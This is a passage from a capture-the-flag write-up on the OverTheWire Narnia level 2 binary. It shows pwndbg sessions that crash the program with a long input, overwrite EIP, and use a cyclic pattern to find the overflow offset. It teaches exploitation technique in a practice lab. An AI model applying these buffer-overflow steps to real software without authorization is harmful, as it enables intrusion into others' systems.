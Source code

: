 ### Binary Analysis

We can see that the program errors out with a “Segmentation fault” error. It is essential to investigate further into what might be happening by using a debugger program such as gdb. There are other great debugger programs such as radare2, IDA, Ghidra, among many others, and each one of them has their strengths and weaknesses (gdb and radare2 tend to be very strong dynamic analysis debugger programs, while Ghidra and IDA are more useful for static analysis).

{% highlight bash %}
pwndbg> r $(python2 -c "print 'A'*1000")                                                                                                                              
Starting program\: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(python2 -c "print 'A'*1000")                                                                      
                                                                                       
Program received signal SIGSEGV, Segmentation fault.                                  0x41414141 in ?? ()                                                                                                                                                          LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA                                      
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0                                                                             EBX  0x0                                                                                                                                                                   ECX  0x0                                                                                                                                                                   EDX  0x0  
EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0x41414141 ('AAAA')  
ESP  0xffffcc60 ◂-- 0x41414141 ('AAAA')  
EIP  0x41414141 ('AAAA')  
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────  
Invalid address 0x41414141
{% endhighlight %}

#### Calculating EIP Offset

After running the program in gdb and providing 1000 A’s as the argument, the EIP register was successfully overwritten to 0x41414141. To find the offset, the cyclic function can be used as follows\:

{% highlight bash %}
pwndbg> r $(cyclic 1000)                                                                                                                                             [11/205]  
Starting program\: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(cyclic 1000)  
                                                                                                                                                                             
Program received signal SIGSEGV, Segmentation fault.  
0x62616169 in ?? ()LEGEND\: STACK | HEAP | CODE | DATA | RWX | RODATA  
────────────────────────────────────[ REGISTERS ]─────────────────────────────────────EAX  0x0       EBX  0x0       ECX  0x0       EDX  0x0       EDI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */                                                                                      ESI  0xf7fa6000 (_GLOBAL_OFFSET_TABLE_) ◂-- insb   byte ptr es\:[edi], dx /* 0x1e4d6c */EBP  0x62616168 ('haab')  
ESP  0xffffcc60 ◂-- 0x6261616a ('jaab')  
EIP  0x62616169 ('iaab')  
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────  
Invalid address 0x62616169
{% endhighlight %}
